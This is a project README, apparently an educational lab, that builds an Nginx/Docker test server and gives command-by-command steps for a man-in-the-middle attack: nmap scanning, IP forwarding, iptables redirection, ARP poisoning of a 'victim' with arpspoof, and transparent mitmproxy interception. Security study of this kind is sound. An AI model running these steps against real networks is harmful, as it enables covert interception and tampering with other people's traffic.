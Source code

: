 # Man-in-the-Middle Attack via ARP Spoofing

This project explores Man-in-the-Middle attack techniques using ARP spoofing to intercept, analyze, and modify network traffic between a client and a server.

- [Server Configuration](#1-Server-Configuration)
- [MitM Configuration](#2-MitM-Configuration)

## 1. Server Configuration

### 1.1 Installing Nginx

```bash
$ sudo apt install nginx -y
```

### 1.2 Generating a Self-Signed Certificate

Create a directory for SSL certificates:

```bash
$ sudo mkdir -p /etc/nginx/ssl
```

Generate a self-signed certificate using OpenSSL:

```bash
$ sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
-keyout /etc/nginx/ssl/nginx-selfsigned.key \
-out /etc/nginx/ssl/nginx-selfsigned.crt
```

**Parameter Descriptions**:

- `-x509`: creates a certificate in x509 format.
- `-nodes`: disables passphrase request for the private key.
- `-days 365`: sets the certificate validity period to 365 days.
- `-newkey rsa:2048`: generates a new 2048-bit RSA key.

### 1.3 Configuring Nginx

```bash
$ sudo nano /etc/nginx/sites-available/default
```

Add the following configuration, replacing `<IP_addr>` with the server’s IP address:

```nginx
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    server_name <IP_addr>;

    # Redirect from HTTP to HTTPS
    return 301 https://$host$request_uri;
}

server {
    listen 443 ssl;
    server_name <IP_addr>;

    ssl_certificate /etc/nginx/ssl/nginx-selfsigned.crt;
    ssl_certificate_key /etc/nginx/ssl/nginx-selfsigned.key;

    location / {
        proxy_pass http://localhost:8080;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

### 1.4 Verifying and Restarting Nginx

Verify the configuration and restart the service:

```bash
$ sudo nginx -t
$ sudo systemctl restart nginx
```

### 1.5 Starting Docker Containers

Clone the repository and start the containers:

```bash
$ git clone https://github.com/SenapeDev/CySec.git
$ cd server
$ docker compose up --build -d
```

### 1.6 Managing HTTPS Mode

To enable or disable HTTPS using the Makefile:

```bash
$ make https-on
$ make https-off
```

- `https-on`: enables redirection to HTTPS.
- `https-off`: disables HTTPS redirection, returning to HTTP.

---

## 2. MitM Configuration

### 2.1 Installing Nmap

```bash
$ sudo apt install nmap -y
```

### 2.2 Scanning the Local Network with Nmap

To find the IP address of the host running the website within the local network, execute:

```bash
$ nmap -p 80,443 --open -sV <IP_range>
```

**Parameter Descriptions**:

- `-sV` detects active services and attempts to identify the web application in use.
- `--open` shows only hosts with open ports.
- `<IP_range>` is the IP address range for scanning.

### 2.3 Enabling Packet Forwarding

Enable packet forwarding to allow packet transmission between the server and the victim:

```bash
# echo 1 > /proc/sys/net/ipv4/ip_forward
```

### 2.4 Configuring iptables for Traffic Redirection

Redirect HTTP traffic to port 8080 (used by `mitmproxy`):

```bash
$ sudo iptables -t nat -A PREROUTING -p tcp -s <src_IP> --dport 80 -j REDIRECT --to-port 8080
```

This command uses the `nat` table in iptables to redirect traffic intended for port 80 on the specified address to port 8080. These changes are temporary and will be removed upon reboot.

### 2.5 Checking Set Rules

To check active `iptables` rules:

```bash
$ sudo iptables -t nat -L -v -n
```

The command lists all rules in the iptables `nat` table with details (`-v`) and without name resolution (`-n`).

### 2.6 Installing dsniff

Install `dsniff` to perform ARP spoofing:

```bash
$ sudo apt install dsniff
```

### 2.7 Performing ARP Poisoning

Use `arpspoof` to trick the victim into thinking they are communicating with the server:

```bash
# arpspoof -i <interface> -t <src_IP> <dest_IP>
```

This command sends ARP packets to the victim’s IP address (`<src_IP>`) to set the `<dest_IP>` (the impersonated server) as the sender, using the specified network interface (`<interface>`).

### 2.8 Installing Wireshark

To capture and analyze network traffic, install Wireshark:

```bash
$ sudo apt install wireshark -y
```

### 2.9 Capturing Packets with Wireshark

Start Wireshark to capture traffic:

```bash
$ sudo wireshark
```

### 2.10 Installing mitmproxy

Install `mitmproxy` to manipulate requests:

```bash
$ pip install mitmproxy
```

### 2.11 Installing the Script for mitmproxy

```bash
$ git clone https://github.com/SenapeDev/CySec.git
```

### 2.12 Intercepting and Modifying Requests with mitmproxy

Run `mitmproxy` in transparent mode to intercept and modify HTTP traffic:

```bash
$ cd mitm
$ mitmproxy -s main.py --mode transparent
```

This command starts `mitmproxy` in transparent mode (`--mode transparent`) to intercept traffic without any configuration on the client.

